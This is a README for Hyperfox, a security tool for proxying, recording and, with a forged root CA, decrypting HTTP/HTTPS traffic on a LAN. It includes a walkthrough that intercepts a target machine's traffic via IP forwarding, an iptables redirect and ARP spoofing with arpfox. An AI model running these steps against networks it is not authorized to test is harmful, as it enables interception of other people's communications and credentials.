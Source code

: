 # Hyperfox

[Hyperfox][1] is a security tool for proxying and recording HTTP and HTTPs
communications on a LAN.

![Hyperfox diagram](https://hyperfox.org/images/hyperfox-diagram.png)

Hyperfox is capable of forging SSL certificates on the fly if you provide it
with a root CA certificate and its corresponding key. If the target machine
recognizes the root CA as trusted, then HTTPs traffic can be successfully
decrypted, intercepted and recorded.

![Hyperfox SSL](https://hyperfox.org/images/hyperfox-diagram.png)

This is the development repository, check out the [https://hyperfox.org][1]
site for usage information.

## Getting Hyperfox

See the [download](https://hyperfox.org/download) page for binary builds and
compilation instructions.

## A common example: hyperfox with arpfox on Linux

The following example assumes that Hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the [arpfox][4] tool to alter the ARP table of the target
machine in order to make it redirect its traffic to Hyperfox instead of to the
legitimate LAN gateway. This is an ancient technique known as [ARP
spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
> sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
> export HYPERFOX_GW=10.0.0.1
> export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
> export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
> sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule on the host to instruct it to redirect all traffic
that goes to port 80 (commonly HTTP) to a local port where Hyperfox is
listening to (1080).

```sh
> sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare Hyperfox to receive plain HTTP traffic:

```sh
> hyperfox
...
2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpfox` to alter the target's ARP table so it starts sending its
network traffic to the host box:

```sh
> sudo arpfox -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

and watch the live traffic coming in.

## Contributing to Hyperfox

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-today José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: https://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: https://github.com/malfunkt/arpfox
[5]: http://git-scm.com
[6]: https://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/malfunkt/hyperfox/issues
